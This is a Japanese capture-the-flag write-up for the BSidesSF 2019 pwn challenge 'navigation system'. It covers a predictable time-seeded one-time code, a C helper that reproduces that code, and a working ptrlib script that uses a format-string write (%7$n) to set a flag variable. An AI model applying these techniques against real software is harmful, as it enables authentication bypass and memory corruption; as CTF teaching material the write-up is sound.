 # [pwn 374pts] navigation system - BSidesSF 2019 CTF
32ビットバイナリでPIEは無効です。
```
$ checksec binary
[*] 'binary'
    Arch:       32 bits (little endian)
    NX:         NX enabled
    SSP:        SSP enabled (Canary found)
    RELRO:      Partial RELRO
    PIE:        PIE disabled
```
最初にユーザー名とパスワードを聞かれますが、IDAで調べるとstrcmpで比較しており、それぞれ`test_account`、`test_password`だと分かります。
その後genOTPcodeでワンタイムコードが作られるので、これを当てる必要があります。
このコードは次のように生成されています。
```c
int genOTPcode(char* username, char* password) {
     srand(time(NULL) + username[0] + password[0]);
     return rand();
}
```
`time(NULL)`に依存するのでコードは予測可能です。
いっつもCで書いたバイナリ呼んでるけどpythonでできないのかな。
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
  srand(time(NULL) + 't' + 't');
  printf("%d", rand());
  return 0;
}
```
認証を全部クリアするとUserPanelが呼ばれます。
ここでは4つの機能があるのですが有効なのは2つだけです。
1つ目は`Read latest report`で、グローバル変数`flag`が0でなければ`report.txt`が読めます。
2つ目は`Set a station`で、stationというローカル変数に0x20バイトまで入力できます。
入力した内容はprintfでそのまま出力されるのでFormat String Exploitが可能です。
したがって、FSBでflagを1以上にしてから`Read latest report`を選択すればフラグが出力されます。
```python
from ptrlib import *
import subprocess

elf = ELF("./binary")

def getOTP():
    t = subprocess.check_output(["./ctime"])
    return int(t)

#sock = Process("./binary")
sock = Socket("185.66.87.233", 5002)
sock.recvuntil("Login: ")
sock.sendline("test_account")
sock.recvuntil("Password: ")
sock.sendline("test_password")
otp = getOTP()
sock.recvuntil("code: ")
sock.sendline(str(otp))
sock.recvuntil("> ")
sock.sendline("2")
sock.recvuntil("> ")
sock.send(p32(elf.symbol("flag")) + b"%7$n")
sock.interactive()
```

# 感想
簡単なFSBの問題ですね。
